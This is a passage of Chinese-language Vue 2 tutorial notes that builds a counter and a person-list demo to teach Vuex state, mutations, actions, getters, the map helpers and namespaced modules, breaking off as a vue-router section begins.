        justify-content: space-around;
      }
      img {
        width: 100%;
      }
      video {
        width: 100%;
      }
      h4 {
        text-align: center;
      }
      </style>
      ```

      ```js
      //main.js文件：
      // 引入vue
      import Vue from "vue";
      // 引入app
      import App from "./App.vue";
      // 引入vue-serouurce
      import vueResource from "vue-resource";
      // 关闭vue的生产提示
      Vue.config.productionTip = false;
      // 使用插件
      Vue.use(vueResource);
      // 创建vm
      new Vue({
        el: "#app",
        render: (h) => h(App),
        beforeCreate() {
          Vue.prototype.$bus = this;
        },
      });
      ```

## 求和案例纯 vue 版：

---

```vue
//Count.vue文件：
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>
<script>
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
      sum: 0, //当前的和
    };
  },
  methods: {
    increment: function () {
      this.sum += this.n;
    },
    decrement: function () {
      this.sum -= this.n;
    },
    incrementOdd: function () {
      if (this.sum % 2) {
        this.sum += this.n;
      }
    },
    incrementWait: function () {
      setTimeout(() => {
        this.sum += this.n;
      }, 500);
    },
  },
};
</script>
<style scoped>
button {
  margin-left: 5px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
  </div>
</template>
<script>
import Count from "./components/Count";
export default {
  name: "App",
  components: { Count },
};
</script>
<style scoped></style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 引入vue-serouurce
import vueResource from "vue-resource";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 使用插件
Vue.use(vueResource);
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## Vuex：

---

### 1.概念：

专门在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对 vue 应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。

### 2.何时使用：

多个组件需要共享数据时

### 3.分析 Vuex：



### 4.搭建 vuex 环境：

1.创建文件：`src/store/index.js`

```js
//引入Vue核心库
import Vue from "vue";
//引入Vuex
import Vuex from "vuex";
//应用Vuex插件
Vue.use(Vuex);

//准备actions对象——响应组件中用户的动作
const actions = {};
//准备mutations对象——修改state中的数据
const mutations = {};
//准备state对象——保存具体的数据
const state = {};

//创建并暴露store
export default new Vuex.Store({
  actions, //也可以写为actions:actions
  mutations, //也可以写为mutations:mutations
  state, //也可以写为state:state
});
```

2.在`main.js`中创建 vm 时传入`store`配置项

```js
......
//引入store
import store from './store'
......

//创建vm
new Vue({
	el:'#app',
	render:h => h(App),
	store //也可以写为store:store
})
```

#### 求和案例\_vuex 版：

```vue
//componens文件夹下的Count.vue文件：
<template>
  <div>
    <h1>当前求和为:{{ $store.state.sum }}</h1>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>
<script>
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  methods: {
    increment: function () {
      this.$store.commit("JIA", this.n);
    },
    decrement: function () {
      this.$store.commit("JIAN", this.n);
    },
    incrementOdd: function () {
      this.$store.dispatch("jiaOdd", this.n);
    },
    incrementWait: function () {
      this.$store.dispatch("jiaWait", this.n);
    },
  },
  mounted() {
    // console.log("Count", this);
  },
};
</script>
<style scoped>
button {
  margin-left: 5px;
}
</style>
```

```js
//store文件夹下index.js：
// 该文件用于创建Vuex中最为核心的store
//引入Vue核心库
import Vue from "vue";
// 引入Vuex
import Vuex from "vuex";
// 应用Vuex插件
Vue.use(Vuex);
// 准备actions——用于响应组件中的动作
const actions = {
  /*jia:function(centext,value){
        console.log('sctions中的JIA被调用了')
        centext.commit('JIA',value)
    },
    jian:function(centext,value){
        console.log('sctions中的JIA被调用了')
        centext.commit('JIAN',value)
    },*/
  jiaOdd: function (centext, value) {
    console.log("sctions中的JIAOdd被调用了");
    if (centext.state.sum % 2) {
      centext.commit("JIA", value);
    }
  },
  jiaWait: function (centext, value) {
    console.log("sctions中的jiaWait被调用了");
    setTimeout(() => {
      centext.commit("JIA", value);
    }, 500);
  },
};
// 准备mutations——用于操作数据（state）
const mutations = {
  JIA: function (state, value) {
    // console.log('mutations中的JIA被调用了',a,b)
    state.sum += value;
  },
  JIAN: function (state, value) {
    // console.log('mutations中的JIAN被调用了',a,b)
    state.sum -= value;
  },
};
// 准备state——用于存储数据
const state = {
  sum: 0, //当前的和
};

// 创建store并暴露store
export default new Vuex.Store({
  actions: actions,
  mutations: mutations,
  state: state,
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
  </div>
</template>
<script>
import Count from "./components/Count";
export default {
  name: "App",
  components: { Count },
  // mounted() {
  //   console.log("App", this);
  // },
};
</script>
<style scoped></style>
```

```vue
//main.js文件： // 引入vue import Vue from "vue"; // 引入app import App from
'./App.vue' // 引入vue-serouurce import vueResource from 'vue-resource' //
引入store import store from './store/index' // 关闭vue的生产提示
Vue.config.productionTip = false // 使用插件 Vue.use(vueResource) // 创建vm new
Vue({ el:'#app', render: h => h(App), store:store, beforeCreate(){
Vue.prototype.$bus = this } })
```

### 5.基本使用：

1.初始化数据、配置`actions`、配置`mutations`，操作文件`store.js`

```js
//引入Vue核心库
import Vue from "vue";
// 引入Vuex
import Vuex from "vuex";
// 应用Vuex插件
Vue.use(Vuex);

const actions = {
  //响应组件中加的动作
  jia: function (centext, value) {
    //console.log('actions中的jia被调用了',miniStore,value)
    centext.commit("JIA", value);
  },
};

const mutations = {
  JIA: function (state, value) {
    // console.log('mutations中的JIA被调用了',a,b)
    state.sum += value;
  },
};
// 初始化数据
const state = {
  sum: 0, //当前的和
};

// 创建store并暴露store
export default new Vuex.Store({
  actions: actions,
  mutations: mutations,
  state: state,
});
```

2.组件中读取 vuex 中的数据：`$store.state.sum`

3.组件中修改 vuex 中的数据：`$store.dispatch('action中的方法名',数据)`或`$store.commit('mutations中的方法名',数据)`

> 备注：若没有网络请求或其他业务逻辑，组件中也可以越过 actions，即不写`dispatch`，直接编写`commit`

### 6.getters 的使用：

1.概念：当 state 中的数据需要经过加工后再使用时，可以使用 getters 加工。(逻辑复杂并想复用推荐使用 getters)

2.在`store.js`中追加`getters`配置

```js
......
const getters = {
	bigSum(state){
		return state.sum * 10
	}
}

//创建并暴露store
export default new Vuex.Store({
	......
	getters	//配置项
})
```

3.组件中读取数据：`$store.getters.bigSum`

```vue
//components文件夹下的Count.vue文件：
<template>
  <div>
    <h1>当前求和为：{{ $store.state.sum }}</h1>
    <h3>当前求和放大10倍为：{{ $store.getters.bigSum }}</h3>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  methods: {
    increment() {
      this.$store.commit("JIA", this.n);
    },
    decrement() {
      this.$store.commit("JIAN", this.n);
    },
    incrementOdd() {
      this.$store.dispatch("jiaOdd", this.n);
    },
    incrementWait() {
      this.$store.dispatch("jiaWait", this.n);
    },
  },
  mounted() {
    console.log("Count", this.$store);
  },
};
</script>

<style lang="css">
button {
  margin-left: 5px;
}
</style>
```

```js
//store文件夹下的index.js文件：
//该文件用于创建Vuex中最为核心的store
import Vue from "vue";
//引入Vuex
import Vuex from "vuex";
//应用Vuex插件
Vue.use(Vuex);

//准备actions——用于响应组件中的动作
const actions = {
  /* jia(context,value){
		console.log('actions中的jia被调用了')
		context.commit('JIA',value)
	},
	jian(context,value){
		console.log('actions中的jian被调用了')
		context.commit('JIAN',value)
	}, */
  jiaOdd(context, value) {
    console.log("actions中的jiaOdd被调用了");
    if (context.state.sum % 2) {
      context.commit("JIA", value);
    }
  },
  jiaWait(context, value) {
    console.log("actions中的jiaWait被调用了");
    setTimeout(() => {
      context.commit("JIA", value);
    }, 500);
  },
};
//准备mutations——用于操作数据（state）
const mutations = {
  JIA(state, value) {
    console.log("mutations中的JIA被调用了");
    state.sum += value;
  },
  JIAN(state, value) {
    console.log("mutations中的JIAN被调用了");
    state.sum -= value;
  },
};
//准备state——用于存储数据
const state = {
  sum: 0, //当前的和
};
//准备getters——用于将state中的数据进行加工
const getters = {
  bigSum(state) {
    return state.sum * 10;
  },
};

//创建并暴露store
export default new Vuex.Store({
  actions,
  mutations,
  state,
  getters,
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
  </div>
</template>

<script>
import Count from "./components/Count";
export default {
  name: "App",
  components: { Count },
  mounted() {
    // console.log('App',this)
  },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
//引入插件
import vueResource from "vue-resource";
//引入store
import store from "./store";

//关闭Vue的生产提示
Vue.config.productionTip = false;
//使用插件
Vue.use(vueResource);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  store,
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### 7.四个 map 方法的使用：

1.**mapState 方法**：用于帮助我们映射`state`中的数据为计算属性

```js
computed:{
	//借助mapState生成计算属性，sum、school、subject（对象写法）
    ...mapState({sum:'sum',school:'school',subject:'subject'}),

	//借助mapState生成计算属性，sum，school，subject（数组写法）
	...mapState(['sum','school','subject']),
}
```

2.**mapGetters 方法**：用于帮助我们映射`getters`中的数据为计算属性

```js
computed:{
	//借助mapGetters生成计算属性，bigSum（对象写法）
	...mapGetters({bigSum:'bigSum'}),
	//借助mapGetters生成计算属性，bigSum（数组写法）
	...mapGetters(['bigSum'])
}
```

```vue
//components文件夹下Count.vue文件：
<template>
  <div>
    <h1>当前求和为:{{ sum }}</h1>
    <h3>当前求和放大10倍为:{{ bigSum }}</h3>
    <h3>我在{{ school }}，学习{{ subject }}</h3>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>
<script>
import { mapState, mapGetters } from "vuex";
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  computed: {
    // 靠程序员自己亲自去写计算属性
    /*sum() {
      return this.$store.state.sum;
    },
    school() {
      return this.$store.state.school;
    },
    subject() {
      return this.$store.state.subject;
    },*/

    //借助mapState生成计算属性，从state中读取数据。（对象写法）
    // ...mapState({ he: "sum", xuexiao: "school", xueke: "subject" }),

    //借助mapState生成计算属性，从state中读取数据。（数组写法）
    ...mapState(["sum", "school", "subject"]),

    /* ******************************************************** */

    /* bigSum() {
      return this.$store.getters.bigSum;
     },*/
    //借助getters生成计算属性，从getters中读取数据。（对象写法）
    ...mapGetters({ bigSum: "bigSum" }),
    //借助getters生成计算属性，从getters中读取数据。（数组写法）
    // ...mapGetters(["bigSum"]),
  },
  methods: {
    increment: function () {
      // this.$store.dispatch("JIA", this.n);
      this.$store.commit("JIA", this.n);
    },
    decrement: function () {
      this.$store.commit("JIAN", this.n);
      // this.$store.dispatch("JIAN", this.n);
    },
    incrementOdd: function () {
      this.$store.dispatch("jiaOdd", this.n);
    },
    incrementWait: function () {
      this.$store.dispatch("jiaWait", this.n);
    },
  },
  mounted() {
    const x = mapState({ he: "sum", xuexiao: "school", xueke: "subject" });
    console.log(x);
  },
};
</script>
<style scoped>
button {
  margin-left: 5px;
}
</style>
```

```js
//store文件夹下index.js文件：
// 该文件用于创建Vuex中最为核心的store
import Vue from "vue";
// 引入Vuex
import Vuex from "vuex";
// 应用Vuex插件
Vue.use(Vuex);
// 准备actions——用于响应组件中的动作
const actions = {
  /*jia:function(centext,value){
        console.log('sctions中的JIA被调用了')
        centext.commit('JIA',value)
    },
    jian:function(centext,value){
        console.log('sctions中的JIA被调用了')
        centext.commit('JIAN',value)
    },*/
  jiaOdd: function (centext, value) {
    console.log("sctions中的JIAOdd被调用了");
    if (centext.state.sum % 2) {
      centext.commit("JIA", value);
    }
  },
  jiaWait: function (centext, value) {
    console.log("sctions中的jiaWait被调用了");
    setTimeout(() => {
      centext.commit("JIA", value);
    }, 500);
  },
};
// 准备mutations——用于操作数据（state）
const mutations = {
  JIA: function (state, value) {
    console.log("mutations中的JIA被调用了");
    state.sum += value;
  },
  JIAN: function (state, value) {
    console.log("mutations中的JIAN被调用了");
    state.sum -= value;
  },
};
// 准备state——用于存储数据
const state = {
  sum: 0, //当前的和
  school: "哔哩哔哩",
  subject: "前端",
};
// 准备getters——用于j将state中的数据进行加工
const getters = {
  bigSum(state) {
    return state.sum * 10;
  },
};

// 创建store并暴露store
export default new Vuex.Store({
  actions: actions,
  mutations: mutations,
  state: state,
  getters: getters,
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
  </div>
</template>
<script>
import Count from "./components/Count";
export default {
  name: "App",
  components: { Count },
  // mounted() {
  //   console.log("App", this);
  // },
};
</script>
<style scoped></style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 引入vue-serouurce
import vueResource from "vue-resource";
// 引入store
import store from "./store/index";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 使用插件
Vue.use(vueResource);

// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  store: store,
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

3.**mapActions 方法**：用于帮助我们生成与`actions`对话的方法，即：包含`$store.dispatch(xxx)`的函数

```js
methods:{
	//靠mapActions生成：incrementOdd、incrementWait（对象形式）
	...mapActions({increamentOdd:'jiaOdd',incrementWait:'jiaWait'}),

	//靠mapActions生成：incrementOdd、incrementWait（数组形式）
	...mapActions(['jiaOdd','jiaWait']) ,
}
```

4.**mapMutations 方法**：用于帮助我们生成与`mutations`对话的方法，即：包含`$store.commit(xxx)`的函数

```js
methods:{
	//靠mapMutations生成：increament、decrement（对象形式）
	...mapMutations({increment:'JIA',decrement:'JIAN'}),

	//靠mapMutations生成：increment、decrement（数组形式）
	...mapMutations(['JIA','JIAN']),
}
```

> 备注：mapActions 与 mapMutations 使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

```vue
//components文件夹下的Count.vue文件：
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}，学习{{ subject }}</h3>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
import { mapState, mapGetters, mapMutations, mapActions } from "vuex";
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  computed: {
    //借助mapState生成计算属性，从state中读取数据。（对象写法）
    // ...mapState({he:'sum',xuexiao:'school',xueke:'subject'}),

    //借助mapState生成计算属性，从state中读取数据。（数组写法）
    ...mapState(["sum", "school", "subject"]),

    /* ******************************************************************** */

    //借助mapGetters生成计算属性，从getters中读取数据。（对象写法）
    // ...mapGetters({bigSum:'bigSum'})

    //借助mapGetters生成计算属性，从getters中读取数据。（数组写法）
    ...mapGetters(["bigSum"]),
  },
  methods: {
    //程序员亲自写方法
    /* increment(){
				this.$store.commit('JIA',this.n)
			},
			decrement(){
				this.$store.commit('JIAN',this.n)
			}, */

    //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(对象写法)
    ...mapMutations({ increment: "JIA", decrement: "JIAN" }),

    //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(数组写法)
    // ...mapMutations(['JIA','JIAN']),

    /* ************************************************* */

    //程序员亲自写方法
    /* incrementOdd(){
				this.$store.dispatch('jiaOdd',this.n)
			},
			incrementWait(){
				this.$store.dispatch('jiaWait',this.n)
			}, */

    //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(对象写法)
    ...mapActions({ incrementOdd: "jiaOdd", incrementWait: "jiaWait" }),

    //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(数组写法)
    // ...mapActions(['jiaOdd','jiaWait'])
  },
  mounted() {
    const x = mapState({ he: "sum", xuexiao: "school", xueke: "subject" });
    console.log(x);
  },
};
</script>

<style lang="css">
button {
  margin-left: 5px;
}
</style>
```

```js
//store文件夹下的index.js文件：
//该文件用于创建Vuex中最为核心的store
import Vue from "vue";
//引入Vuex
import Vuex from "vuex";
//应用Vuex插件
Vue.use(Vuex);

//准备actions——用于响应组件中的动作
const actions = {
  /* jia(context,value){
		console.log('actions中的jia被调用了')
		context.commit('JIA',value)
	},
	jian(context,value){
		console.log('actions中的jian被调用了')
		context.commit('JIAN',value)
	}, */
  jiaOdd(context, value) {
    console.log("actions中的jiaOdd被调用了");
    if (context.state.sum % 2) {
      context.commit("JIA", value);
    }
  },
  jiaWait(context, value) {
    console.log("actions中的jiaWait被调用了");
    setTimeout(() => {
      context.commit("JIA", value);
    }, 500);
  },
};
//准备mutations——用于操作数据（state）
const mutations = {
  JIA(state, value) {
    console.log("mutations中的JIA被调用了");
    state.sum += value;
  },
  JIAN(state, value) {
    console.log("mutations中的JIAN被调用了");
    state.sum -= value;
  },
};
//准备state——用于存储数据
const state = {
  sum: 0, //当前的和
  school: "尚硅谷",
  subject: "前端",
};
//准备getters——用于将state中的数据进行加工
const getters = {
  bigSum(state) {
    return state.sum * 10;
  },
};

//创建并暴露store
export default new Vuex.Store({
  actions,
  mutations,
  state,
  getters,
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
  </div>
</template>

<script>
import Count from "./components/Count";
export default {
  name: "App",
  components: { Count },
  mounted() {
    // console.log('App',this)
  },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
//引入插件
import vueResource from "vue-resource";
//引入store
import store from "./store";

//关闭Vue的生产提示
Vue.config.productionTip = false;
//使用插件
Vue.use(vueResource);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  store,
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### 8.多组件共享数据：

```vue
//component文件夹下的Count.vue文件：
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}，学习{{ subject }}</h3>
    <h3 style="color: red">Person组件的总人数是：{{ personList.length }}</h3>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
import { mapState, mapGetters, mapMutations, mapActions } from "vuex";
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  computed: {
    //借助mapState生成计算属性，从state中读取数据。（数组写法）
    ...mapState(["sum", "school", "subject", "personList"]),

    //借助mapGetters生成计算属性，从getters中读取数据。（数组写法）
    ...mapGetters(["bigSum"]),
  },
  methods: {
    //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(对象写法)
    ...mapMutations({ increment: "JIA", decrement: "JIAN" }),

    //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(对象写法)
    ...mapActions({ incrementOdd: "jiaOdd", incrementWait: "jiaWait" }),
  },
  mounted() {
    // const x = mapState({ he: "sum", xuexiao: "school", xueke: "subject" });
    // console.log(x);
  },
};
</script>

<style lang="css">
button {
  margin-left: 5px;
}
</style>
```

```vue
//component文件夹下的Person.vue文件：
<template>
  <div>
    <h1>人员列表</h1>
    <h3 style="color: red">Count组件求和为：{{ sum }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <ul>
      <li v-for="p in personList" :key="p.id">
        {{ p.name }}
      </li>
    </ul>
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "Person",
  data() {
    return {
      name: "",
    };
  },
  methods: {
    add() {
      const personObj = { id: nanoid(), name: this.name };
      //   console.log(personObj);
      this.$store.commit("ADD_PERSON", personObj);
      this.name = "";
    },
  },
  computed: {
    personList() {
      return this.$store.state.personList;
    },
    sum() {
      return this.$store.state.sum;
    },
  },
};
</script>
<style></style>
```

```js
//store文件夹下的index.js文件：
//该文件用于创建Vuex中最为核心的store
import Vue from "vue";
//引入Vuex
import Vuex from "vuex";
//应用Vuex插件
Vue.use(Vuex);

//准备actions——用于响应组件中的动作
const actions = {
  /* jia(context,value){
		console.log('actions中的jia被调用了')
		context.commit('JIA',value)
	},
	jian(context,value){
		console.log('actions中的jian被调用了')
		context.commit('JIAN',value)
	}, */
  jiaOdd(context, value) {
    console.log("actions中的jiaOdd被调用了");
    if (context.state.sum % 2) {
      context.commit("JIA", value);
    }
  },
  jiaWait(context, value) {
    console.log("actions中的jiaWait被调用了");
    setTimeout(() => {
      context.commit("JIA", value);
    }, 500);
  },
};
//准备mutations——用于操作数据（state）
const mutations = {
  JIA(state, value) {
    console.log("mutations中的JIA被调用了");
    state.sum += value;
  },
  JIAN(state, value) {
    console.log("mutations中的JIAN被调用了");
    state.sum -= value;
  },
  ADD_PERSON(state, value) {
    console.log("mutations中的ADD_PERSON被调用了");
    state.personList.unshift(value);
  },
};
//准备state——用于存储数据
const state = {
  sum: 0, //当前的和
  school: "尚硅谷",
  subject: "前端",
  personList: [
    { id: "001", name: "张三" },
    { id: "002", name: "李四" },
    { id: "003", name: "王五" },
  ],
};
//准备getters——用于将state中的数据进行加工
const getters = {
  bigSum(state) {
    // console.log(state)
    return state.sum * 10;
  },
};

//创建并暴露store
export default new Vuex.Store({
  actions,
  mutations,
  state,
  getters,
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
    <hr />
    <Person />
  </div>
</template>

<script>
import Count from "./components/Count";
import Person from "./components/Person.vue";
export default {
  name: "App",
  components: { Count, Person },
  mounted() {
    // console.log('App',this)
  },
};
</script>
```

```js
//main.js文件
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
//引入插件
import vueResource from "vue-resource";
//引入store
import store from "./store";

//关闭Vue的生产提示
Vue.config.productionTip = false;
//使用插件
Vue.use(vueResource);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  store,
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

### 9.模块化+命名空间：

1.目的：让代码更好维护，让多种数据分类更加明确。

2.修改`store.js`

```js
const countAbout = {
	namespaced:true,	//开启命名空间
	state:{
		x:1
	},
	mutations:{......},
	actions:{......},
	getters:{
		bigSum(state){
			return state.sum * 10
		}
	}
}

const personAbout = {
	namespaced:true,	//开启命名空间
	state:{......},
	mutations:{......},
	actions:{......}
}

const store = new Vuex.Store({
	modules:{
		countAbout,
		personAbout
	}
})
```

3.开启命名空间后，组件中读取 state 数据：

```
//方式一：自己直接读取：
this.$store.state.personAbout.list
//方式二：借助mapState读取：
...mapState('countAbout',['sum','school','subject']),
```

4.开启命名空间后，组件读取 getters 数据：

```
//方式一：自己直接读取：
this.$store.getters['personAbout/firstPersonName']
//方式二：借助mapGetters读取：
...mapGetters('countAbout',['bigSum'])
```

5.开启命名空间后，组件中调用 dispatch：

```
//方式一：自己直接调用：
this.$store.dispatch('personAbout/addPersonWang',person)
//方式二：借助mapActions：
...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
```

6.开启命名空间后，组件中调用 commit：

```
//方式一：自己直接commit:
this.$store.commit('personAbout/ADD_PERSON',person)
//方式二：借助mapMutations：
...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'})
```

```vue
//components文件夹下的Count.vue文件：
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}，学习{{ subject }}</h3>
    <h3 style="color: red">Person组件的总人数是：{{ personList.length }}</h3>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
import { mapState, mapGetters, mapMutations, mapActions } from "vuex";
export default {
  name: "Count",
  data() {
    return {
      n: 1, //用户选择的数字
    };
  },
  computed: {
    //借助mapState生成计算属性，从state中读取数据。（数组写法）
    ...mapState("countAbout", ["sum", "school", "subject"]),
    ...mapState("personAbout", ["personList"]),
    //借助mapGetters生成计算属性，从getters中读取数据。（数组写法）
    ...mapGetters("countAbout", ["bigSum"]),
  },
  methods: {
    //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(对象写法)
    ...mapMutations("countAbout", { increment: "JIA", decrement: "JIAN" }),

    //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(对象写法)
    ...mapActions("countAbout", {
      incrementOdd: "jiaOdd",
      incrementWait: "jiaWait",
    }),
  },
  mounted() {
    console.log(this.$store);
  },
};
</script>

<style lang="css">
button {
  margin-left: 5px;
}
</style>
```

```vue
//components文件夹下的Person.vue文件：
<template>
  <div>
    <h1>人员列表</h1>
    <h3 style="color: red">Count组件求和为：{{ sum }}</h3>
    <h3>列表中第一人的名字是：{{ firstPersonName }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <button @click="addWang">添加一个姓王的人</button>
    <button @click="addPersonServer">添加一个人,名字随机</button>
    <ul>
      <li v-for="p in personList" :key="p.id">
        {{ p.name }}
      </li>
    </ul>
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "Person",
  data() {
    return {
      name: "",
    };
  },
  methods: {
    add() {
      const personObj = { id: nanoid(), name: this.name };
      //   console.log(personObj);
      this.$store.commit("personAbout/ADD_PERSON", personObj);
      this.name = "";
    },
    addWang() {
      const personObj = { id: nanoid(), name: this.name };
      this.$store.dispatch("personAbout/addPersonWang", personObj);
    },
    addPersonServer() {
      this.$store.dispatch("personAbout/addPersonServer");
    },
  },
  computed: {
    personList() {
      return this.$store.state.personAbout.personList;
    },
    sum() {
      return this.$store.state.countAbout.sum;
    },
    firstPersonName() {
      return this.$store.getters["personAbout/firstPersonName"];
    },
  },
};
</script>
<style></style>
```

```js
//store文件夹下的count.js文件：
//求和相关的配置
export default {
  namespaced: true,
  actions: {
    jiaOdd(context, value) {
      console.log("actions中的jiaOdd被调用了");
      if (context.state.sum % 2) {
        context.commit("JIA", value);
      }
    },
    jiaWait(context, value) {
      console.log("actions中的jiaWait被调用了");
      setTimeout(() => {
        context.commit("JIA", value);
      }, 500);
    },
  },
  mutations: {
    JIA(state, value) {
      console.log("mutations中的JIA被调用了");
      state.sum += value;
    },
    JIAN(state, value) {
      console.log("mutations中的JIAN被调用了");
      state.sum -= value;
    },
  },
  state: {
    sum: 0, //当前的和
    school: "尚硅谷",
    subject: "前端",
  },
  getters: {
    bigSum(state) {
      // console.log(state)
      return state.sum * 10;
    },
  },
};
```

```js
//store文件夹下的person.js文件：
// 人员管理相关的配置
import axios from "axios";
import { nanoid } from "nanoid";
export default {
  namespaced: true,
  actions: {
    addPersonWang(context, value) {
      if (value.name.indexOf("王") === 0) {
        context.commit("ADD_PERSON", value);
      } else {
        alert("添加的人必须姓王！");
      }
    },
    addPersonServer(context) {
      axios.get("https://api.uixsj.cn/hitokoto/get?type=social").then(
        (response) => {
          context.commit("ADD_PERSON", { id: nanoid(), name: response.data });
        },
        (error) => {
          alert(error.message);
        }
      );
    },
  },
  mutations: {
    ADD_PERSON(state, value) {
      console.log("mutations中的ADD_PERSON被调用了");
      state.personList.unshift(value);
    },
  },
  state: {
    personList: [
      { id: "001", name: "张三" },
      { id: "002", name: "李四" },
      { id: "003", name: "王五" },
    ],
  },
  getters: {
    firstPersonName(state) {
      return state.personList[0].name;
    },
  },
};
```

```js
//store文件夹下的index.js文件：
//该文件用于创建Vuex中最为核心的store
import Vue from "vue";
//引入Vuex
import Vuex from "vuex";
import countOptinos from "./count";
import personOptions from "./person";
//应用Vuex插件
Vue.use(Vuex);

//创建并暴露store
export default new Vuex.Store({
  modules: {
    countAbout: countOptinos,
    personAbout: personOptions,
  },
});
```

```vue
//App.vue文件：
<template>
  <div>
    <Count />
    <hr />
    <Person />
  </div>
</template>

<script>
import Count from "./components/Count";
import Person from "./components/Person.vue";
export default {
  name: "App",
  components: { Count, Person },
  mounted() {
    // console.log('App',this)
  },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
//引入插件
import vueResource from "vue-resource";
//引入store
import store from "./store";

//关闭Vue的生产提示
Vue.config.productionTip = false;
//使用插件
Vue.use(vueResource);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  store,
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## 路由（route）：

---

1.理解：一个路由（route）就是一组映射关系（key-value），多个路由需要路由器（router）进行管理。

2.前端路由：key 是路径，value 是组件。

### 1.基本使用：

1.安装 vue-router，命令：`npm i vue-router`

2.应用插件：`Vue.use(VueRouter)`

